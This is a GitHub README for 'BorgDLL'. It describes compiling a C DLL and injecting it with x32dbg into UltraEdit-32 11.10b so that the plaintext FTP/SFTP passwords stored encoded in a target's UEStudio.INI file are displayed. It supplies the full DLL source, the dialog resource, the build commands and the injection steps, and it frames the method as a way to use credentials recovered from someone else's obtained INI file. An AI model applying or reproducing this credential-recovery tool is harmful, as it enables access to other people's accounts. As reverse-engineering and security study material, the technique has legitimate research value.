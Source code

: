 # BorgDLL
Using DLL injection to recover encoded credentials

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue99.png)

This example shows how to compile a Windows DLL and inject it using x32dbg into UltraEdit-32 verion 11.10b in order to expose the plaintext password from the encoded string stored in the UEStudio.INI file.  This scenario is useful when you have obtained a target's INI file and you wish to recover the plaintext FTP and SFTP/SSH credentials from memory, rather than throw them at a honeypot.  The password encoding scheme is a complex propritary obfuscation algorithm, so rather than port the algorithm to a scripting language, you can use this technique to turn your own installation of UltraEdit-32 into a personal decoder ring.  This example takes the UEStudio.INI file and loads it under the application installed on a Windows 7 Pro 32-bit VM.

The binaries that were reverse engineered for this demonstration are:<br />
```
uedit32.exe file ver 11.1.2.0 SHA1 = bea1b540a597f9750ccff19cea5615037ccd350d
ueres.dll file ver 11.1.2.0 SHA1 = f30c20e822630e8759c5ecf037fa23856aeb851b
```

UltraEdit-32 verion 11.10b looks like this when you launch it.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue00.png)

The application allows you to retrieve files to be edited via FTP or SFTP.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue01.png)

The password for a connection entry is encoded as 256 hexadecimal characters.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue02.png)

The dialog box resource where a user enters credentials is found in the `ueres.dll` file.  The following control IDs will be used in this example.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue03.png)

This is the dialog box resource file `showpw.rc` that will be used to display the plaintext credentials.

```
#include <windows.h>
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

100 DIALOG 40, 40, 300, 110
STYLE DS_SETFONT | DS_SETFOREGROUND | WS_POPUP | WS_CAPTION
CAPTION "Password Decoder"
LANGUAGE LANG_ENGLISH, SUBLANG_ENGLISH_US
FONT 11, "Courier New"
{
   EDITTEXT IDC_PLAINTEXT, 11, 15, 280, 59, ES_LEFT | ES_MULTILINE | ES_AUTOVSCROLL | ES_WANTRETURN | WS_CHILD | WS_VISIBLE | WS_BORDER | WS_VSCROLL
   PUSHBUTTON "&OK", IDC_OK, 128, 84, 38, 12, BS_PUSHBUTTON | WS_CHILD | WS_VISIBLE
}
```

compile the above resource file like this:<br />
`i686-w64-mingw32-windres showpw.rc -O coff -o showpw.res`

This is the C program `showpw.c` that will be used to create the DLL.  It starts a thread on DLL_PROCESS_ATTACH when LoadLibrary is called from the debugger and monitors for changes in the "FTP Accounts" window.

```c
#include <windows.h>
#include <string.h>

#define IDC_PASSWORD 343 // "Password" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_USERNAME 134 // "Name" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_IPDOMAIN 342 // "Domain or IP Address" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

char sOutput[1000] = {0};

DWORD WINAPI pwthread(LPVOID lpParam);
BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam);

DWORD WINAPI pwthread(LPVOID lpParam)
{
   HWND hWndDlg;
   char sEntry1[500] = {0}, sEntry2[500] = {0}, sPassword[500] = {0};
   char sDomain[200] = {0}, sUser[200] = {0};
   HMODULE hDll;

   while(1)
   {
      hWndDlg = FindWindow(NULL, "FTP Accounts");
      if(hWndDlg)
      {
         hDll = GetModuleHandle("showpw.dll");
         Sleep(1000);
         if(GetDlgItemText(hWndDlg, IDC_IPDOMAIN, sDomain, 190))
         {
            strncpy(sEntry2, sDomain, 195);
            if(GetDlgItemText(hWndDlg, IDC_USERNAME, sUser, 190))
            {
               strncat(sEntry2, sUser, 195);
               if(strncmp(sEntry1, sEntry2, 495))
               {
                  strncpy(sEntry1, sEntry2, 495);
                  if(GetDlgItemText(hWndDlg, IDC_PASSWORD, sPassword, 490))
                  {
                     strcpy(sOutput, "Domain/IP = ");
                     strcat(sOutput, sDomain);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Username = ");
                     strcat(sOutput, sUser);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Password = ");
                     strcat(sOutput, sPassword);
                     strcat(sOutput, "\r\n\r\n");
                     DialogBox(hDll, MAKEINTRESOURCE(IDD_DLGPASSWD), NULL, DialogProc);
                  }
               }
            }
         }
      }
      else
      {
         Sleep(1000);
      }
   }
   ExitThread(0);
}

BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam)
{
   switch(message)
   {
      case WM_INITDIALOG:
         SetDlgItemText(hwndDlg, IDC_PLAINTEXT, sOutput);
         break;
      case WM_COMMAND:
         switch(LOWORD(wParam))
         {
            case IDC_PLAINTEXT:
               break;
            case IDC_OK:
               EndDialog(hwndDlg, wParam);
               return TRUE;
         }
   }
   return FALSE;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
   HANDLE hThrd;

   switch(dwReason)
   {
      case DLL_PROCESS_ATTACH:
         hThrd = CreateThread(NULL, 0, pwthread, NULL, 0, NULL);
         break;
      case DLL_THREAD_ATTACH:
         break;
      case DLL_THREAD_DETACH:
         break;
      case DLL_PROCESS_DETACH:
         break;
   }
   return TRUE;
}
```

compile the above source file like this:<br />
`i686-w64-mingw32-gcc -s -m32 -shared -Wl,--kill-at -o showpw.dll showpw.c showpw.res`<br />
then copy it to the Windows 7 VM.

On the Windows 7 VM, launch x32dbg, then from the menu go to File > Open, and navigate to `C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32` then select `uedit32.exe`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue04.png)

The program will pause when the debugger attaches.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue05.png)

Restart the application with the command line changed to use the INI file you wish to load.  For example:<br />
`"C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32\uedit32.exe" /i="C:\Users\admin\Desktop\UEStudio.INI"`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue06.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue07.png)

The program will pause again when restarted.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue08.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue10.png)

Now go to the Symbols tab, right-click and Load Library.  Select the DLL you copied over.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue11.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue12.png)

The DLL will load and show up in the module list.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue13.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue14.png)

Go to the application menu `File > FTP > Open from FTP` and click on the `Accounts` button.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue15.png)

As you cycle through the Account entries in the combo box you should see the credentials appear in the dialog box from the injected DLL.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue16.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue17.png)
